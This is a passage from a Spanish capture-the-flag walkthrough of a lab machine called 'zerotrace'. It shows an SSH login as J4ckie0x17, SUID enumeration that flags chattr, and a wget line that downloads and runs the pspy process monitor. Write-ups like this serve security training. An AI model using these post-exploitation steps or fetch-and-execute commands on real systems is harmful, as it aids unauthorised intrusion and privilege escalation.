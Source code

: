 ```bash
ssh J4ckie0x17@192.168.1.187
```

![ssh J4ckie0x17](../../../assets/images/zerotrace/ssh.png)

## Movimiento lateral de J4ckie0x17 a shelldredd

Encontramos varias cosas interesantes con el usuario `J4ckie0x17`.

1. El binario `/usr/bin/chattr` tiene el bit SUID activado cuando no es habitual, este binario sirve para modificar los atributos especiales en sistemas de feichero ext2/ext3/ext4.

```bash
find / -type f -perm -4000 2>/dev/null
```

![find suid](../../../assets/images/zerotrace/suid.png)


2. Utilizamos `pspy` para monitorear los procesos activos y encontramos uno que ejecuta el usuario `shelldredd` con el `UID` 1003 muy sospechoso.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s && chmod +x pspy64s && ./pspy64s
```
